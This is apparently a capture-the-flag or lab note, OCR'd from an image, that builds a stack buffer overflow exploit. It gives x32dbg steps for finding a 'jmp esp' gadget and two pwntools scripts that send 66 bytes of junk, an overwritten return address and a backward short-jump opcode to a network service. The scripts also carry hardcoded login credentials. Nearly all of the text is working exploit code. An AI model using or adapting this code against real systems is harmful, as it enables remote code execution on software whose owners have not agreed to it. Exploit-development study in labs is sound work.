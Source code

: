``` python
# in x32dbg
right click > search in > shearch in all modules > command
jmp esp
7190239f (references)
f2 (breakpoint)

```

``` python
#!/usr/bin/python3
from pwn import *

port = sys.argv[1]
# payload = b"pattern_create output"
offset = 66
junk = b"A"*offset
jmp_esp = p32(0x7190239f)
payload = junk + jmp_esp

r = remote('192.168.1.102', port)
r.recvuntil("Username:")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password:")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName:")
r.sendline(b"Vickry Alfiansyah")
r.recvuntil(b"Input Your Code:")
r.sendline(payload)

```

I need to the eip apoint to the start of the string, creat an opcode that allowme go back with the instruction that i need execute

use nasm_shell
```
nasm_shell.rb
jmp $-70 (offset=66+jmp_esp=4)
EBB8
```

``` python
#!/usr/bin/python3
from pwn import *

port = sys.argv[1]
# payload = b"pattern_create output"
offset = 66
junk = b"A"*offset
jmp_esp = p32(0x7190239f)
jmp_esp70 = b"\xEB\xB8"
payload = junk + jmp_esp + jmp_esp70

r = remote('192.168.1.102', port)
r.recvuntil("Username:")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password:")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName:")
r.sendline(b"Vickry Alfiansyah")
r.recvuntil(b"Input Your Code:")
r.sendline(payload)

```
